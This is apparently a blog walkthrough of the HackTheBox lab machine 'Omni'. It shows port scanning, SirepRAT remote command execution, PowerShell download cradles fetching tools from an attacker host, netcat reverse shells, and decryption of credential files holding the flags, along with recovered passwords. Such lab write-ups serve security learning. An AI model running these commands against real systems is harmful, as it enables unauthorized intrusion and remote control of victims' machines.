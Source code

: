 ```yaml
---
layout: post
title:  "HackTheBox >_ Omni_204"
description: walkthrough
category: HackTheBox
---
```


# Omni_204


![]({{ site.url }}/assets/Omni_204.assets/20210110100820058_816768569.png)

`rustscan 10.10.10.204 -b 924 -t 1500 --no-nmap`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-44-49.png)

`sudo nmap -p135,8080,29817,29819,29820 -sV -oX sploit.xml 10.10.10.204; searchsploit --nmap sploit.xml`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-58-07.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-58-59.png)

`sudo nmap -T4 -v -Pn --script=vuln -p135,8080,29817,29819,29820 10.10.10.204`

## 8080

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-49-35.png)

We got `windows device portal`, do some search to find a defult credential

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-51-23.png)

`Administrator:p@ssw0rd`

But this doesn't work.

Search for exploit

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-18-53.png)

https://github.com/SafeBreach-Labs/SirepRAT

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-28-11.png)

`git clone https://github.com/SafeBreach-Labs/SirepRAT.git`

`pip2 install -r requirements.txt`

`python -m SimpleHTTPServer 8080`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c dir"`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-47-44.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c net user" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-49-55.png)

We can run cmd now

try some commend to translate file to target, but didn't work.

`certutil -urlcache -split -f http://10.10.14.22:8080/nc.exe`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell -NoProfile -ExecutionPolicy unrestricted -Command IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.22:8080/powercat.ps1');powercat -c 10.10.14.22 -p 1337 -ep`



`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\nc.exe -Uri http://10.10.14.22:8080/nc.exe" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-30-35.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-32-30.png)

传输成功

now run nc to connect black to kali

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\temp\\nc.exe 10.10.14.22 1337 -e cmd.exe" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-35-12.png)

版本不正确，上传64位nc并重复上面的步骤

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\nc64.exe -Uri http://10.10.14.22:8080/nc64.exe" --v`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\temp\\nc64.exe 10.10.14.22 1337 -e cmd.exe" --v`

获得shell

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-53-04.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\winPEAS.exe -Uri http://10.10.14.22:8080/winPEAS.exe" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-14-07.png)

`powershell Invoke-Webrequest -OutFile C:\temp\winPEAS.exe -Uri http://10.10.14.22:8080/winPEAS.exe`


![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-57-25.png)
检查文件系统
`Get-PsDrive -PsProvider FileSystem`

发现还有其他分区

![]({{ site.url }}/assets/Omni_204.assets/20201128101521539_23549.png)

![]({{ site.url }}/assets/Omni_204.assets/20201128102301475_11825.png)

![]({{ site.url }}/assets/Omni_204.assets/20201128102224790_31070.png)

`app:mesh5143`
`administrator:_1nt3rn37ofTh1nGz`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-19-25.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-20-27.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.22:8080/nc64.exe" --v`

C:\Windows\System32\spool\drivers\color\nc64.exe

C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.22 1338 -e powershell.exe


![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-37-57.png)


![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-38-46.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-43-34.png)

```powershell
$credential = Import-CliXml -Path U:\Users\app\user.txt
$credential.GetNetworkCredential().Password
```

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-45-53.png)


这个页面是没有注销的，需要关闭浏览器即可重新使用另外的凭证登陆

`administrator:_1nt3rn37ofTh1nGz`

`C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.22 1339 -e powershell.exe`

```powershell
$credential = Import-CliXml -Path U:\Users\administrator\root.txt
$credential.GetNetworkCredential().Password
```
![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-54-10.png)
